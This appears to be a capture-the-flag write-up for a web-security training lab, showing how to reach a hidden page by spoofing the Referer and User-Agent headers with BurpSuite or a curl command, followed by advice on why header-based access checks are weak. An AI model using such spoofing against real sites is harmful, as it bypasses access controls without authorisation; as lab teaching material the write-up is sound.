# Breach: Spoof


<br>

### >> [Flag file](../flag) <<

<br>


## Explanation:


#### Step 1:

- Goto the albatroz page (at the bottom of the home page, by clicking on the copyright notice).


#### Step 2:

- View the source code of the page.

> You will find 2 interesting comments :
> ```html
> <!-- You must come from : "https://www.nsa.gov/". -->
> ```
> ```html
> <!-- Let's use this browser : "ft_bornToSec". It will help you a lot. -->
> ```


#### Step 3:

We need to send the request with the correct headers :
- `Referer` must be `https://www.nsa.gov/`.
- `User-Agent` must be `ft_bornToSec`.

There are 2 ways to do it:


#### [[ With BurpSuite ]] :


#### Step 3.a:

- Open BurpSuite, refresh and intercept the HTTP request.


#### Step 3.b:

- Update the headers :
```http
Referer: https://www.nsa.gov/
User-Agent: ft_bornToSec
```


#### Step 3.c:

- Forward the request and look at the browser.


<br>


##### [[ With curl ]] :


#### Step 3.a:

- The URL of the albatroz page is `http://$IP/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f`.

- Use the following command:
```bash
curl -H "Referer: https://www.nsa.gov/" -H "User-Agent: ft_bornToSec" http://$IP/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f > response.html
```


#### Step 3.b:

- Find the flag in the `response.html` file.<br>
  You can either:

  - Open the file with a browser.
    ```bash
    open response.html
    ```
    ```bash
    firefox response.html
    ```
    ```bash
    google-chrome response.html
    ```

  - Or grep it:
    ```bash
    grep flag response.html
    ```


<br>


## How to fix it:

> The data inside the requests are user-side and can be edited by the user at any moment.<br>
> Making some pages accessible depending on the `User-Agent` is stupid.<br>
> It's not because the `User-Agent` is `Mozilla` that the user does not use another browser.

##### RULE N°1 IN SECURITY: NEVER TRUST THE USER !

- Do not base sensitive things on the content of a simple request.


---

[[Back to main page](/#darkly)]
